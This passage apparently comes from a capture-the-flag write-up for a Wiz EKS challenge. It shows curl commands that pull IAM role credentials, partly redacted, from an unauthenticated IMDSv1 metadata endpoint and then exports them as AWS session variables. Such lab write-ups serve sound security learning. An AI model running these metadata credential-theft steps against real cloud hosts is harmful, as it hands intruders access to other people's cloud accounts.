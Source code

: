 Additionally, the following permissions are provided:
```json
{
    "pods": [
        "list",
        "get"
    ]
}
```
No more direct way to list secrets!

#### ***IMDS Credential Access***

After some fumbling around, access to the IMDS endpoint `/iam/security-credentials/` appears to be unauthenticated in this challenge. This would indicate use of the Instance Metadata Service (IMDS) v1, which does not include authentication ([Introduction to the Instance Metadata Service](https://hackingthe.cloud/aws/general-knowledge/intro_metadata_service/)).

We can use this service to query existing accounts, and recover credentials of associated IAM roles and users. A check for available roles associated with this service results in one name:

```bash
root@wiz-eks-challenge:~# curl 169.254.169.254/latest/meta-data/iam/security-credentials/
eks-challenge-cluster-nodegroup-NodeInstanceRole
```

IMDSv1 does not require an existing session token for access to this information. 

Knowing the name of this role, security credential details for the role can be accessed through the IMDS endpoint `/iam/security-credentials/eks-challenge-cluster-nodegroup-NodeInstanceRole`:

```bash
root@wiz-eks-challenge:~# curl 169.254.169.254/latest/meta-data/iam/security-credentials/eks-challenge-cluster-nodegroup-NodeInstanceRole | jq .
[...]
{
  "AccessKeyId": "ASIA[...]QFWT",
  "Expiration": "2023-11-27 22:41:12+00:00",
  "SecretAccessKey": "AyjF[...]9f+H",
  "SessionToken": "FwoG[...]hzjF"
}
```

These IAM credentials can be assigned in our current session using ‘`export`’ to assign the AccessKeyID (`AWS_ACCESS_KEY_ID`), SecretAccessKey (`AWS_SECRET_ACCESS_KEY`), and SessionToken (`AWS_SESSION_TOKEN`) to corresponding environment variables:

```bash
export AWS_ACCESS_KEY_ID="ASIA[...]QFWT"
export AWS_SECRET_ACCESS_KEY="AyjF[...]9f+H"
export AWS_SESSION_TOKEN="FwoG[...]hzjF"
```

Prior to credential assignment, our session has no identity as verified by `aws sts get-caller-identity`:

```bash
root@wiz-eks-challenge:~# aws sts get-caller-identity
Unable to locate credentials. You can configure credentials by running "aws configure".
```
